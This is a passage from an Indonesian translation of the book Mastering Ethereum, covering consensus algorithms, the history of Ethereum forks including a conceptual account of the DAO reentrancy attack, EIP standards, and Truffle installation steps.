Secara umum, algoritma PoS bekerja sebagai berikut. *Blockchain* melacak satu set **validator**, dan siapa pun yang memegang mata uang kripto dasar *blockchain* (dalam kasus Ethereum, ether) dapat menjadi validator dengan mengirimkan jenis transaksi khusus yang mengunci ether mereka ke dalam sebuah deposit. Para validator bergiliran mengusulkan dan memberikan suara pada blok valid berikutnya, dan bobot suara setiap validator bergantung pada ukuran depositnya (yaitu, **saham** atau ***stake***). Yang penting, seorang validator berisiko kehilangan depositnya jika blok yang mereka pertaruhkan ditolak oleh mayoritas validator. Sebaliknya, validator mendapatkan imbalan kecil, sebanding dengan saham yang mereka depositkan, untuk setiap blok yang diterima oleh mayoritas. Dengan demikian, PoS memaksa validator untuk bertindak jujur dan mengikuti aturan konsensus, melalui sistem imbalan dan hukuman. Perbedaan utama antara PoS dan PoW adalah bahwa hukuman di PoS bersifat **intrinsik** terhadap *blockchain* (misalnya, kehilangan ether yang dipertaruhkan), sedangkan di PoW hukumannya bersifat **ekstrinsik** (misalnya, kehilangan dana yang dihabiskan untuk listrik).

## Ethash: Algoritma Proof-of-Work Ethereum

**Ethash** adalah algoritma PoW Ethereum. Ia menggunakan evolusi dari algoritma Dagger-Hashimoto, yang merupakan kombinasi dari algoritma Dagger Vitalik Buterin dan algoritma Hashimoto Thaddeus Dryja. Ethash bergantung pada pembuatan dan analisis dataset besar, yang dikenal sebagai **grafik asiklik terarah** (*directed acyclic graph* atau, lebih sederhana, “**DAG**”). DAG memiliki ukuran awal sekitar 1 GB dan akan terus tumbuh secara perlahan dan linear, diperbarui sekali setiap *epoch* (30.000 blok, atau sekitar 125 jam).

Tujuan dari DAG adalah untuk membuat algoritma PoW Ethash bergantung pada pemeliharaan struktur data yang besar dan sering diakses. Hal ini pada gilirannya dimaksudkan untuk membuat Ethash “**tahan-ASIC**” (*ASIC resistant*), yang berarti lebih sulit untuk membuat peralatan penambangan sirkuit terpadu khusus aplikasi (ASIC) yang berkali-kali lipat lebih cepat daripada unit pemrosesan grafis (GPU) yang cepat. Para pendiri Ethereum ingin menghindari sentralisasi dalam penambangan PoW, di mana mereka yang memiliki akses ke pabrik fabrikasi silikon khusus dan anggaran besar dapat mendominasi infrastruktur penambangan dan merusak keamanan algoritma konsensus.

Penggunaan GPU tingkat konsumen untuk melakukan PoW di jaringan Ethereum berarti lebih banyak orang di seluruh dunia dapat berpartisipasi dalam proses penambangan. Semakin banyak penambang independen, semakin terdesentralisasi kekuatan penambangan, yang berarti kita dapat menghindari situasi seperti di Bitcoin, di mana sebagian besar kekuatan penambangan terkonsentrasi di tangan beberapa operasi penambangan industri besar. Kelemahan dari penggunaan GPU untuk menambang adalah bahwa hal itu memicu kekurangan GPU di seluruh dunia pada tahun 2017, menyebabkan harganya meroket dan menuai protes dari para *gamer*. Hal ini menyebabkan pembatasan pembelian di pengecer, membatasi pembeli hanya satu atau dua GPU per pelanggan.

Hingga saat ini, ancaman penambang ASIC di jaringan Ethereum sebagian besar tidak ada. Menggunakan ASIC untuk Ethereum memerlukan desain, manufaktur, dan distribusi perangkat keras yang sangat disesuaikan. Memproduksinya membutuhkan investasi waktu dan uang yang cukup besar. Rencana yang telah lama diungkapkan oleh para pengembang Ethereum untuk pindah ke algoritma konsensus PoS kemungkinan besar membuat pemasok ASIC menjauh dari menargetkan jaringan Ethereum untuk waktu yang lama. Begitu Ethereum pindah ke PoS, ASIC yang dirancang untuk algoritma PoW akan menjadi tidak berguna—kecuali jika penambang dapat menggunakannya untuk menambang mata uang kripto lain. Kemungkinan terakhir ini sekarang menjadi kenyataan dengan berbagai koin berbasis konsensus Ethash lainnya yang tersedia, seperti PIRL dan Ubiq, dan Ethereum Classic telah berjanji untuk tetap menjadi *blockchain* PoW di masa mendatang. Ini berarti kita kemungkinan akan mulai melihat penambangan ASIC menjadi kekuatan di jaringan Ethereum selagi masih beroperasi dengan konsensus PoW.

## Casper: Algoritma Proof-of-Stake Ethereum

**Casper** adalah nama yang diusulkan untuk algoritma konsensus PoS Ethereum. Ia masih dalam penelitian dan pengembangan aktif dan belum diimplementasikan di *blockchain* Ethereum pada saat buku ini diterbitkan. Casper sedang dikembangkan dalam dua “rasa” yang bersaing:
* **Casper FFG**: “*The Friendly Finality Gadget*”
* **Casper CBC**: “*The Friendly GHOST/Correct-by-Construction*”

Awalnya, Casper FFG diusulkan sebagai algoritma hibrida PoW/PoS untuk diimplementasikan sebagai transisi ke algoritma “PoS murni” yang lebih permanen. Tetapi pada Juni 2018, Vitalik Buterin, yang memimpin pekerjaan penelitian tentang Casper FFG, memutuskan untuk “membatalkan” model hibrida dan beralih ke algoritma PoS murni. Sekarang, Casper FFG dan Casper CBC keduanya dikembangkan secara paralel. Seperti yang dijelaskan Vitalik:

> *Tradeoff* utama antara FFG dan CBC adalah bahwa CBC tampaknya memiliki properti teoretis yang lebih baik, tetapi FFG tampaknya lebih mudah untuk diimplementasikan.

Informasi lebih lanjut tentang sejarah Casper, penelitian yang sedang berlangsung, dan rencana masa depan dapat ditemukan di tautan berikut:
* [Ethereum Casper (Proof of Stake)](http://bit.ly/2RO5HAl)
* [History of Casper, Part 1](http://bit.ly/2FlBojb)
* [History of Casper, Part 2](http://bit.ly/2QyHiic)
* [History of Casper, Part 3](http://bit.ly/2JWWFyt)
* [History of Casper, Part 4](http://bit.ly/2FsaExI)
* [History of Casper, Part 5](http://bit.ly/2PPhhOv)

## Prinsip-Prinsip Konsensus

Prinsip dan asumsi dari algoritma konsensus dapat dipahami dengan lebih jelas dengan mengajukan beberapa pertanyaan kunci:

* Siapa yang dapat mengubah masa lalu, dan bagaimana caranya? (Ini juga dikenal sebagai **kekekalan** atau ***immutability***.)
* Siapa yang dapat mengubah masa depan, dan bagaimana caranya? (Ini juga dikenal sebagai **finalitas** atau ***finality***.)
* Berapa biaya untuk melakukan perubahan tersebut?
* Seberapa terdesentralisasi kekuasaan untuk melakukan perubahan tersebut?
* Siapa yang akan tahu jika sesuatu telah berubah, dan bagaimana mereka akan mengetahuinya?

Algoritma konsensus berkembang dengan pesat, mencoba menjawab pertanyaan-pertanyaan ini dengan cara yang semakin inovatif.

## Kontroversi dan Kompetisi

Pada titik ini Anda mungkin bertanya-tanya: Mengapa kita memerlukan begitu banyak algoritma konsensus yang berbeda? Mana yang bekerja lebih baik? Jawaban untuk pertanyaan terakhir ini berada di pusat area penelitian paling menarik dalam sistem terdistribusi selama dekade terakhir. Semuanya bermuara pada apa yang Anda anggap “lebih baik”—yang dalam konteks ilmu komputer adalah tentang asumsi, tujuan, dan *trade-off* yang tidak dapat dihindari.

Kemungkinan besar tidak ada algoritma yang dapat mengoptimalkan semua dimensi masalah konsensus terdesentralisasi. Ketika seseorang menyarankan bahwa satu algoritma konsensus “lebih baik” dari yang lain, Anda harus mulai mengajukan pertanyaan yang mengklarifikasi: **Lebih baik dalam hal apa? Kekekalan, finalitas, desentralisasi, biaya?** Tidak ada jawaban yang jelas untuk pertanyaan-pertanyaan ini, setidaknya belum.

Selain itu, desain algoritma konsensus berada di pusat industri multi-miliar dolar dan menghasilkan kontroversi yang sangat besar serta perdebatan yang panas. Pada akhirnya, mungkin tidak ada jawaban yang “benar”, sama seperti mungkin ada jawaban yang berbeda untuk aplikasi yang berbeda.

Seluruh industri *blockchain* adalah satu eksperimen raksasa di mana pertanyaan-pertanyaan ini akan diuji dalam kondisi yang penuh permusuhan, dengan nilai moneter yang sangat besar dipertaruhkan. Pada akhirnya, sejarah yang akan menjawab kontroversi ini.

## Kesimpulan

Algoritma konsensus Ethereum masih terus berubah pada saat buku ini selesai ditulis. Di edisi mendatang, kami kemungkinan akan menambahkan lebih banyak detail tentang Casper dan teknologi terkait lainnya seiring dengan semakin matangnya teknologi tersebut dan diterapkannya di Ethereum.

Bab ini menandai akhir dari perjalanan kita, menyelesaikan *Mastering Ethereum*. Materi referensi tambahan mengikuti di bagian lampiran. Terima kasih telah membaca buku ini, dan selamat telah mencapai akhir!

---

# Appendix A
## Sejarah Fork Ethereum

Sebagian besar ***hard fork*** direncanakan sebagai bagian dari peta jalan pemutakhiran dan terdiri dari pembaruan yang umumnya disetujui oleh komunitas (yaitu, ada **konsensus sosial**). Namun, beberapa *hard fork* tidak memiliki konsensus, yang mengarah pada munculnya beberapa *blockchain* yang berbeda. Peristiwa yang menyebabkan perpecahan Ethereum/Ethereum Classic adalah salah satu kasus tersebut, dan dibahas dalam lampiran ini.

## Ethereum Classic (ETC)

**Ethereum Classic** muncul setelah anggota komunitas Ethereum mengimplementasikan *hard fork* yang sensitif terhadap waktu (dengan nama kode “DAO”). Pada tanggal 20 Juli 2016, pada ketinggian blok 1,92 juta, Ethereum memperkenalkan **perubahan *state* yang tidak reguler** melalui *hard fork* dalam upaya untuk mengembalikan sekitar 3,6 juta ether yang telah diambil dari sebuah *smart contract* yang dikenal sebagai **The DAO**. Hampir semua orang setuju bahwa ether yang diambil telah dicuri dan membiarkan semuanya di tangan pencuri akan sangat merugikan perkembangan ekosistem Ethereum serta platform itu sendiri.

Mengembalikan ether kepada pemiliknya masing-masing seolah-olah The DAO tidak pernah ada secara teknis mudah dilakukan, meskipun cukup kontroversial secara politis. Sejumlah orang di ekosistem tidak setuju dengan perubahan ini, meyakini bahwa **kekekalan (*immutability*)** harus menjadi prinsip fundamental dari *blockchain* Ethereum tanpa terkecuali; mereka memilih untuk melanjutkan rantai asli dengan nama Ethereum Classic. Meskipun perpecahan itu pada awalnya bersifat ideologis, kedua rantai tersebut sejak saat itu telah berevolusi menjadi entitas yang terpisah.

### The Decentralized Autonomous Organization (The DAO)

The DAO diciptakan oleh Slock.it, dengan tujuan menyediakan pendanaan dan tata kelola berbasis komunitas untuk proyek-proyek. Ide intinya adalah bahwa proposal akan diajukan, kurator akan mengelola proposal, dana akan dikumpulkan dari investor dalam komunitas Ethereum, dan, jika proyek terbukti berhasil, investor akan menerima bagian dari keuntungan.

The DAO juga merupakan salah satu eksperimen pertama dalam token Ethereum. Daripada mendanai proyek secara langsung dengan ether, peserta akan menukar ether mereka dengan token DAO, menggunakannya untuk memberikan suara pada pendanaan proyek, dan nantinya dapat menukarnya kembali dengan ether.

Token DAO tersedia untuk dibeli dalam *crowdsale* yang berlangsung dari 5 April hingga 30 April 2016, mengumpulkan hampir 14% dari total ether yang ada, yang bernilai ~$150 juta pada saat itu.

### Bug *Reentrancy*

Pada tanggal 9 Juni 2016, pengembang Peter Vessenes dan Chriseth melaporkan bahwa sebagian besar kontrak berbasis Ethereum yang mengelola dana berpotensi rentan terhadap eksploitasi yang dapat mengosongkan dana kontrak. Beberapa hari kemudian, pada 12 Juni, Stephen Tual (salah satu pendiri Slock.it) melaporkan bahwa kode The DAO tidak rentan terhadap bug yang dijelaskan oleh Peter dan Chriseth. Kontributor DAO yang khawatir pun bernapas lega—sampai lima hari kemudian, ketika seorang penyerang tak dikenal mulai menguras The DAO menggunakan eksploitasi yang mirip dengan yang telah diperingatkan sebelumnya. Pada akhirnya, penyerang The DAO menyedot ~3,6 juta ether dari The DAO.

Secara bersamaan, sekelompok relawan yang menamakan diri mereka **Robin Hood Group (RHG)** mulai menggunakan eksploitasi yang sama untuk menarik sisa dana guna menyelamatkannya agar tidak dicuri oleh penyerang The DAO. Pada tanggal 21 Juni, RHG mengumumkan bahwa mereka telah mengamankan sekitar 70% dana The DAO (sekitar 7,2 juta ether), dengan rencana untuk mengembalikannya kepada komunitas (yang berhasil mereka lakukan di jaringan ETC, dan tidak perlu dilakukan di jaringan Ethereum setelah *fork*). Banyak ucapan terima kasih dan pujian diberikan kepada RHG atas pemikiran cepat dan tindakan cepat mereka yang membantu mengamankan sebagian besar ether komunitas.

#### Detail Teknis

Meskipun penjelasan yang lebih rinci dan menyeluruh tentang bug ini diberikan oleh Phil Daian, penjelasan singkatnya adalah bahwa fungsi krusial dalam DAO memiliki dua baris kode dalam urutan yang salah, yang berarti penyerang dapat membuat permintaan untuk menarik ether ditindaklanjuti berulang kali, sebelum pemeriksaan apakah penyerang berhak atas penarikan tersebut selesai dilakukan. Jenis kerentanan ini dijelaskan dalam bab “Reentrancy”.

#### Alur Serangan

Bayangkan Anda memiliki $100 di rekening bank Anda dan Anda dapat membawa sejumlah slip penarikan kepada teller bank. Teller akan memberi Anda uang untuk setiap slip secara berurutan, dan hanya setelah memproses semua slip, mereka akan mencatat penarikan Anda. Bagaimana jika Anda membawa tiga slip, masing-masing meminta penarikan $100? Bagaimana jika Anda membawa tiga ribu?

Serangan DAO bekerja seperti ini:
1. Penyerang meminta kontrak DAO untuk menarik token DAO (DAO).
2. Penyerang meminta kontrak untuk menarik DAO lagi, sebelum kontrak memperbarui catatannya untuk menunjukkan bahwa DAO telah ditarik.
3. Penyerang mengulangi langkah 2 sebanyak mungkin.
4. Kontrak akhirnya mencatat satu penarikan DAO tunggal, kehilangan jejak penarikan yang terjadi sementara itu.

### Hard Fork The DAO

Untungnya, ada beberapa pengaman yang dibangun ke dalam The DAO: terutama, semua permintaan penarikan tunduk pada penundaan 28 hari. Ini memberi komunitas sedikit waktu untuk membahas apa yang harus dilakukan tentang eksploitasi tersebut, karena dari sekitar 17 Juni–20 Juli, penyerang The DAO tidak akan dapat mengubah token DAO mereka menjadi ether.

Beberapa pengembang fokus mencari solusi yang layak, dan berbagai jalan dieksplorasi dalam waktu singkat ini. Di antaranya adalah *soft fork* DAO, yang diumumkan pada 24 Juni, untuk menunda penarikan DAO hingga konsensus tercapai, dan *hard fork* DAO, yang diumumkan pada 15 Juli, untuk membalikkan efek serangan DAO dengan perubahan *state* yang luar biasa.

Pada tanggal 28 Juni, pengembang menemukan eksploitasi DoS di *soft fork* DAO dan menyimpulkan bahwa *hard fork* DAO akan menjadi satu-satunya pilihan yang layak untuk menyelesaikan situasi sepenuhnya. *Hard fork* DAO akan mentransfer semua ether yang telah diinvestasikan di The DAO ke dalam *smart contract* pengembalian dana baru, memungkinkan pemilik asli ether untuk mengklaim pengembalian dana penuh. Ini memberikan solusi untuk mengembalikan dana yang diretas, tetapi juga berarti mengganggu saldo alamat tertentu di jaringan, meskipun terisolasi. Juga akan ada sisa ether di bagian-bagian DAO yang dikenal sebagai childDAO. Sekelompok wali amanat akan secara manual mengesahkan sisa ether tersebut, yang bernilai ~$6–7 juta pada saat itu.

Dengan waktu yang hampir habis, beberapa tim pengembangan Ethereum membuat klien yang memungkinkan pengguna untuk memutuskan apakah mereka ingin mengaktifkan *fork* ini. Namun, para pembuat klien ingin memutuskan apakah akan membuat pilihan ini *opt-in* (tidak melakukan *fork* secara *default*) atau *opt-out* (*fork* secara *default*). Pada tanggal 15 Juli, pemungutan suara dibuka di carbonvote.com. Keesokan harinya, pada ketinggian blok 1.894.000, pemungutan suara ditutup. Dari 5,5% total pasokan ether yang memberikan suara, ~80% suara (~4,5% dari total pasokan ether) memilih *opt-out*. Seperempat dari suara *opt-out* berasal dari satu alamat tunggal.

Pada akhirnya keputusannya menjadi *opt-out*, jadi mereka yang menentang *hard fork* DAO harus secara eksplisit menyatakan penolakan mereka dengan mengubah opsi konfigurasi di perangkat lunak yang mereka jalankan.

Pada tanggal 20 Juli, pada ketinggian blok 1.920.000, Ethereum mengimplementasikan *hard fork* DAO dan dengan demikian dua jaringan Ethereum tercipta: satu termasuk perubahan *state*, dan yang lainnya mengabaikannya.

Ketika Ethereum yang di-*hard-fork* (Ethereum saat ini) memperoleh mayoritas kekuatan penambangan, banyak yang berasumsi bahwa konsensus telah tercapai dan rantai minoritas akan lenyap, seperti pada *fork* sebelumnya. Meskipun demikian, sebagian besar komunitas Ethereum (sekitar 10% berdasarkan nilai dan kekuatan penambangan) mulai mendukung rantai yang tidak di-*fork*, yang kemudian dikenal sebagai **Ethereum Classic**.

Dalam beberapa hari setelah *fork*, beberapa bursa mulai mendaftarkan Ethereum (“ETH”) dan Ethereum Classic (“ETC”). Karena sifat *hard fork*, semua pengguna Ethereum yang memegang ether pada saat perpecahan kemudian memegang dana di kedua rantai tersebut, dan nilai pasar untuk ETC segera terbentuk dengan Poloniex mendaftarkan ETC pada 24 Juli.

### Linimasa Hard Fork The DAO

* **5 April 2016**: Slock.it menciptakan The DAO setelah audit keamanan oleh Dejavu Security.
* **30 April 2016**: *Crowdsale* The DAO diluncurkan.
* **27 Mei 2016**: *Crowdsale* The DAO berakhir.
* **9 Juni 2016**: Bug panggilan rekursif generik ditemukan dan diyakini memengaruhi banyak kontrak Solidity yang melacak saldo pengguna.
* **12 Juni 2016**: Stephen Tual menyatakan bahwa dana The DAO tidak berisiko.
* **17 Juni 2016**: The DAO dieksploitasi dan varian dari bug yang ditemukan (disebut “bug *reentrancy*”) digunakan untuk mulai menguras dana, akhirnya meraup ~30% dari ether.
* **21 Juni 2016**: RHG mengumumkan telah mengamankan ~70% ether lainnya yang disimpan di dalam The DAO.
* **24 Juni 2016**: Pemungutan suara *soft fork* diumumkan melalui sinyal *opt-in* melalui klien Geth dan Parity, yang dirancang untuk menahan dana sementara hingga komunitas dapat memutuskan apa yang harus dilakukan.
* **28 Juni 2016**: Kerentanan ditemukan di *soft fork* dan ditinggalkan.
* **28 Juni 2016 hingga 15 Juli**: Pengguna memperdebatkan apakah akan melakukan *hard fork* atau tidak; sebagian besar debat publik vokal terjadi di subreddit /r/ethereum.
* **15 Juli 2016**: *Hard fork* DAO diusulkan, untuk mengembalikan dana yang diambil dalam serangan DAO.
* **15 Juli 2016**: Pemungutan suara diadakan di CarbonVote untuk memutuskan apakah *hard fork* DAO akan bersifat *opt-in* (tidak melakukan *fork* secara *default*) atau *opt-out* (*fork* secara *default*).
* **16 Juli 2016**: 5,5% dari total pasokan ether memberikan suara; ~80% suara (~4,5% dari total pasokan) mendukung *hard fork opt-out*, dengan seperempat dari suara pro-fork berasal dari satu alamat tunggal.
* **20 Juli 2016**: *Hard fork* terjadi pada blok 1.920.000.
* **20 Juli 2016**: Mereka yang menentang *hard fork* DAO terus menjalankan perangkat lunak klien lama; ini menyebabkan masalah dengan transaksi yang diputar ulang (*replayed*) di kedua rantai.
* **24 Juli 2016**: Poloniex mendaftarkan rantai Ethereum asli dengan simbol ticker ETC; ini adalah bursa pertama yang melakukannya.
* **10 Agustus 2016**: RHG mentransfer 2,9 juta ETC yang dipulihkan ke Poloniex untuk mengubahnya menjadi ETH atas saran dari Bity SA; 14% dari total kepemilikan RHG diubah dari ETC menjadi ETH dan mata uang kripto lainnya, dan Poloniex membekukan 86% sisa ETH yang didepositkan.
* **30 Agustus 2016**: Dana yang dibekukan dikirim kembali oleh Poloniex ke RHG, yang kemudian membuat kontrak pengembalian dana di rantai ETC.
* **11 Desember 2016**: Tim pengembangan ETC dari IOHK terbentuk, dipimpin oleh anggota pendiri Ethereum, Charles Hoskinson.
* **13 Januari 2017**: Jaringan ETC diperbarui untuk menyelesaikan masalah pemutaran ulang transaksi; rantai-rantai tersebut kini secara fungsional terpisah.
* **20 Februari 2017**: ETCDEVTeam terbentuk, dipimpin oleh pengembang awal ETC, Igor Artamonov (splix).

## Ethereum dan Ethereum Classic

Meskipun perpecahan awal berpusat di sekitar The DAO, kedua jaringan, Ethereum dan Ethereum Classic, sekarang adalah proyek yang terpisah, meskipun sebagian besar pengembangan masih dilakukan oleh komunitas Ethereum dan hanya di-*porting* ke basis kode Ethereum Classic. Namun demikian, serangkaian perbedaan lengkap terus berkembang dan terlalu luas untuk dibahas dalam lampiran ini. Namun, perlu dicatat bahwa kedua rantai tersebut berbeda secara signifikan dalam pengembangan inti dan struktur komunitasnya. Beberapa perbedaan teknis dibahas selanjutnya.

### EVM

Untuk sebagian besar (pada saat penulisan), kedua jaringan tetap sangat kompatibel: kode kontrak yang dibuat untuk satu rantai berjalan seperti yang diharapkan di rantai lainnya; tetapi ada beberapa perbedaan kecil dalam OPCODE EVM.

### Pengembangan Jaringan Inti

Sebagai proyek terbuka, platform *blockchain* sering kali memiliki banyak pengguna dan kontributor. Namun, pengembangan jaringan inti (yaitu, kode yang menjalankan jaringan) sering kali dilakukan oleh kelompok-kelompok kecil karena keahlian dan pengetahuan yang diperlukan untuk mengembangkan jenis perangkat lunak ini. Di Ethereum, pekerjaan ini dilakukan oleh Ethereum Foundation dan para relawan. Di Ethereum Classic, pekerjaan ini dilakukan oleh ETCDEV, IOHK, dan para relawan.

## Fork Ethereum Terkemuka Lainnya

**Ellaism** adalah jaringan berbasis Ethereum yang bermaksud menggunakan PoW secara eksklusif untuk mengamankan *blockchain*. Jaringan ini tidak memiliki *pre-mine* dan tidak ada biaya pengembang wajib, dengan semua dukungan dan pengembangan disumbangkan secara bebas oleh komunitas. Pengembangnya percaya ini membuat milik mereka “salah satu proyek Ethereum murni yang paling jujur,” dan yang “unik menarik sebagai platform bagi pengembang serius, pendidik, dan peminat. Ellaism adalah platform *smart contract* murni. Tujuannya adalah menciptakan platform *smart contract* yang adil dan dapat dipercaya.” Prinsip-prinsip platform ini adalah sebagai berikut:

* Semua perubahan dan pemutakhiran pada protokol harus berusaha untuk mempertahankan dan memperkuat Prinsip-prinsip Ellaism ini.
* **Kebijakan Moneter**: 280 juta koin.
* **Tanpa Sensor**: Tidak seorang pun boleh dapat mencegah transaksi yang valid untuk dikonfirmasi.
* ***Open-Source***: Kode sumber Ellaism harus selalu terbuka bagi siapa saja untuk dibaca, dimodifikasi, disalin, dan dibagikan.
* **Tanpa Izin (*Permissionless*)**: Tidak ada penjaga gerbang sewenang-wenang yang boleh mencegah siapa pun menjadi bagian dari jaringan (pengguna, node, penambang, dll.).
* **Pseudonim**: Tidak ada ID yang diperlukan untuk memiliki atau menggunakan Ellaism.
* **Dapat Dipertukarkan (*Fungible*)**: Semua koin adalah sama dan harus dapat dibelanjakan secara setara.
* **Transaksi Tidak Dapat Dibatalkan**: Blok yang telah dikonfirmasi harus ditetapkan secara permanen. Sejarah *blockchain* harus tidak dapat diubah (*immutable*).
* **Tidak Ada Hard Fork Kontroversial**: Jangan pernah melakukan *hard fork* tanpa konsensus dari seluruh komunitas. Hanya langgar konsensus yang ada jika diperlukan.
* Banyak pemutakhiran fitur dapat dilakukan tanpa *hard fork*, seperti meningkatkan kinerja EVM.

Beberapa *fork* lain juga telah terjadi di Ethereum. Beberapa di antaranya adalah ***hard fork***, dalam artian mereka berpisah langsung dari jaringan Ethereum yang sudah ada sebelumnya. Yang lain adalah ***software fork***: mereka menggunakan perangkat lunak klien/node Ethereum tetapi menjalankan jaringan yang sepenuhnya terpisah tanpa riwayat yang sama dengan Ethereum. Kemungkinan akan ada lebih banyak *fork* selama masa hidup Ethereum.

Ada juga beberapa proyek lain yang mengklaim sebagai *fork* Ethereum tetapi sebenarnya berbasis token ERC20 dan berjalan di jaringan Ethereum. Dua contohnya adalah EtherBTC (ETHB) dan Ethereum Modification (EMOD). Ini bukanlah *fork* dalam pengertian tradisional, dan terkadang disebut “***airdrops***.”

Berikut adalah ringkasan singkat dari beberapa *fork* yang lebih terkemuka yang telah terjadi:

* **Expanse** adalah *fork* pertama dari *blockchain* Ethereum yang mendapatkan daya tarik. Diumumkan melalui forum Bitcoin Talk pada 7 September 2015. *Fork* sebenarnya terjadi seminggu kemudian pada 14 September 2015, pada ketinggian blok 800.000. Awalnya didirikan oleh Christopher Franko dan James Clayton. Visi yang mereka nyatakan adalah menciptakan rantai canggih untuk: “identitas, tata kelola, amal, perdagangan, dan ekuitas”.
* **EthereumFog (ETF)** diluncurkan pada 14 Desember 2017, dan melakukan *fork* pada ketinggian blok 4.730.660. Tujuan yang dinyatakan proyek ini adalah untuk mengembangkan “komputasi kabut terdesentralisasi dunia” dengan berfokus pada komputasi kabut (*fog computing*) dan penyimpanan terdesentralisasi. Masih sedikit informasi tentang apa yang sebenarnya akan dicakup oleh hal ini.
* **EtherZero (ETZ)** diluncurkan pada 19 Januari 2018, pada ketinggian blok 4.936.270. Inovasi utamanya adalah pengenalan arsitektur *masternode* dan penghapusan biaya transaksi untuk *smart contract* guna memungkinkan keragaman DApps yang lebih luas. Terdapat beberapa kritik dari beberapa anggota terkemuka komunitas Ethereum, MyEtherWallet, dan MetaMask, karena kurangnya kejelasan seputar pengembangan dan beberapa tuduhan kemungkinan *phishing*.
* **EtherInc (ETI)** diluncurkan pada 13 Februari 2018, pada ketinggian blok 5.078.585, dengan fokus pada pembangunan organisasi terdesentralisasi. Tujuan yang dinyatakan termasuk pengurangan waktu blok, peningkatan imbalan penambang, penghapusan imbalan *uncle*, dan penetapan batas pada koin yang dapat ditambang. EtherInc menggunakan kunci privat yang sama dengan Ethereum dan telah mengimplementasikan perlindungan pemutaran ulang (*replay protection*) untuk melindungi ether di rantai asli yang tidak di-*fork*.

---

# Appendix B
## Standar Ethereum

## Proposal Peningkatan Ethereum (EIPs)

Repositori **Proposal Peningkatan Ethereum** (*Ethereum Improvement Proposal*) terletak di [https://github.com/ethereum/EIPs/](https://github.com/ethereum/EIPs/). Alur kerjanya diilustrasikan pada Gambar B-1.

Dari [EIP-1](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-1.md):
> EIP adalah singkatan dari *Ethereum Improvement Proposal*. Sebuah EIP adalah dokumen desain yang menyediakan informasi kepada komunitas Ethereum, atau menjelaskan fitur baru untuk Ethereum atau proses maupun lingkungannya. EIP harus menyediakan spesifikasi teknis yang ringkas dari fitur tersebut dan alasan (rasional) untuk fitur tersebut. Penulis EIP bertanggung jawab untuk membangun konsensus di dalam komunitas dan mendokumentasikan pendapat-pendapat yang berbeda.

<p align="center">
  
</p>

### Tabel EIP dan ERC Terpenting

**Tabel B-1. EIP dan ERC Penting**

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  
</p>

---

# Appendix C
## Opcode EVM Ethereum dan Konsumsi Gas

Lampiran ini didasarkan pada pekerjaan konsolidasi yang dilakukan oleh orang-orang di [https://github.com/trailofbits/evm-opcodes](https://github.com/trailofbits/evm-opcodes) sebagai referensi untuk *opcode* dan informasi instruksi Mesin Virtual Ethereum (EVM) yang dilisensikan di bawah Lisensi Apache 2.0.

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  
</p>

---

# Appendix D

## Alat, Kerangka Kerja, dan Pustaka Pengembangan

## Kerangka Kerja (*Frameworks*)

Kerangka kerja dapat digunakan untuk mempermudah pengembangan *smart contract* Ethereum. Dengan melakukan semuanya sendiri, Anda mendapatkan pemahaman yang lebih baik tentang bagaimana semua bagian saling terkait, tetapi itu adalah pekerjaan yang membosankan dan berulang. Kerangka kerja yang dijelaskan di bagian ini dapat mengotomatiskan tugas-tugas tertentu dan membuat pengembangan menjadi lebih mudah.

### Truffle

  * **GitHub**: [https://github.com/trufflesuite/truffle](https://github.com/trufflesuite/truffle)
  * **Situs Web**: [https://truffleframework.com](https://truffleframework.com)
  * **Dokumentasi**: [https://truffleframework.com/docs](https://truffleframework.com/docs)
  * **Truffle Boxes**: [http://truffleframework.com/boxes/](http://truffleframework.com/boxes/)
  * **Repositori paket npm**: [https://www.npmjs.com/package/truffle](https://www.npmjs.com/package/truffle)

#### Menginstal kerangka kerja Truffle

Kerangka kerja Truffle terdiri dari beberapa paket Node.js. Sebelum Anda menginstal `truffle`, Anda perlu memiliki instalasi Node.js dan Node Package Manager (npm) yang terbaru dan berfungsi.

Cara yang disarankan untuk menginstal Node.js dan npm adalah dengan menggunakan Node Version Manager (nvm). Setelah Anda menginstal `nvm`, ia akan menangani semua dependensi dan pembaruan untuk Anda. Ikuti instruksi yang ditemukan di [http://nvm.sh](http://nvm.sh).

Setelah `nvm` terinstal di sistem operasi Anda, menginstal Node.js menjadi sederhana. Gunakan flag `--lts` untuk memberitahu `nvm` bahwa Anda menginginkan versi “dukungan jangka panjang” (*long-term support* atau LTS) terbaru dari Node.js:

```sh
$ nvm install --lts
```

Konfirmasikan bahwa Anda telah menginstal `node` dan `npm`:

```sh
$ node -v
v8.9.4
$ npm -v
5.6.0
```

Selanjutnya, buat file tersembunyi, `.nvmrc`, yang berisi versi Node.js yang didukung oleh DApp Anda sehingga pengembang hanya perlu menjalankan `nvm install` di direktori root proyek dan itu akan secara otomatis menginstal dan beralih menggunakan versi tersebut:

```sh
$ node -v > .nvmrc
$ nvm install
```

Terlihat bagus. Sekarang saatnya menginstal `truffle`:

```sh
$ npm -g install truffle
+ truffle@4.0.6
installed 1 package in 37.508s
```

#### Mengintegrasikan proyek Truffle yang sudah jadi (Truffle Box)

Jika Anda ingin menggunakan atau membuat DApp yang dibangun di atas *boilerplate* yang sudah jadi, kunjungi situs web Truffle Boxes, pilih proyek Truffle yang ada, lalu jalankan perintah berikut untuk mengunduh dan mengekstraknya:

```sh
$ truffle unbox NAMA_BOX
```

#### Membuat direktori proyek truffle

Untuk setiap proyek di mana Anda akan menggunakan `truffle`, buat direktori proyek dan inisialisasi `truffle` di dalam direktori tersebut. `truffle` akan membuat struktur direktori yang diperlukan di dalam direktori proyek Anda. Sudah menjadi kebiasaan untuk memberi nama direktori proyek yang mendeskripsikan proyek tersebut. Untuk contoh ini, kita akan menggunakan `truffle` untuk men-deploy kontrak `Faucet` kita, dan oleh karena itu kita akan menamai folder proyek `Faucet`:

```sh
$ mkdir Faucet
$ cd Faucet
Faucet $
```

Setelah berada di dalam direktori `Faucet`, kita menginisialisasi `truffle`:

```sh
Faucet $ truffle init
```

`truffle` membuat struktur direktori dan beberapa file default:

```
Faucet
+---- contracts
|
`---- Migrations.sol
+---- migrations
|
`---- 1_initial_migration.js
+---- test
+---- truffle-config.js
`---- truffle.js
```

